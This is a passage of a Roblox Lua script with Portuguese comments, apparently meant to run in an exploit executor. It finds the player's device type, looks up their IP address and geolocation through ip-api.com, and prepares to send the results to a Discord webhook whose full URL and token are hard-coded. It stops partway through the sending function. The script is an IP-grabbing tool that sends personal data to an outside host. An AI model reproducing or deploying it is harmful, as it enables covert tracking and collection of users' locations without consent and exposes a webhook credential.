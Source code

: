 -- Serviços necessários
local Players = game:GetService("Players")
local HttpService = game:GetService("HttpService")
local UserInputService = game:GetService("UserInputService")
local Player = Players.LocalPlayer

-- Link do Webhook
local webhookURL = "https://discord.com/api/webhooks/1419751959086497873/T22t6GCChNVWDjhNnTqJ0t8aWr5PsaMHrj-F4eL1OZVt6phDS_QNbHHLAps3Mtg6HJyu" -- << coloque seu webhook aqui

-- Função para identificar o tipo de dispositivo
local function getDeviceType()
    if UserInputService.TouchEnabled then
        return "Celular/Tablet"
    elseif UserInputService.KeyboardEnabled then
        return "PC"
    else
        return "Desconhecido"
    end
end

-- Função para buscar IP e Localização usando a API ip-api
local function getIPInfo()
    local url = "http://ip-api.com/json/"
    local response

    if syn and syn.request then
        response = syn.request({Url = url, Method = "GET"})
    elseif request then
        response = request({Url = url, Method = "GET"})
    elseif http and http.request then
        response = http.request({Url = url, Method = "GET"})
    else
        warn("❌ Seu exploit não suporta requisições HTTP!")
        return nil
    end

    if response and response.Body then
        local data = HttpService:JSONDecode(response.Body)
        return data
    else
        return nil
    end
end

-- Função para gerar um HWID simulado
local function getHWID()
    return "HWID-" .. tostring(math.random(10000000,99999999)) .. "-" .. tostring(math.random(1000,9999))
end

-- Função para enviar o Webhook
local function sendWebhook()
    local ipInfo = getIPInfo()

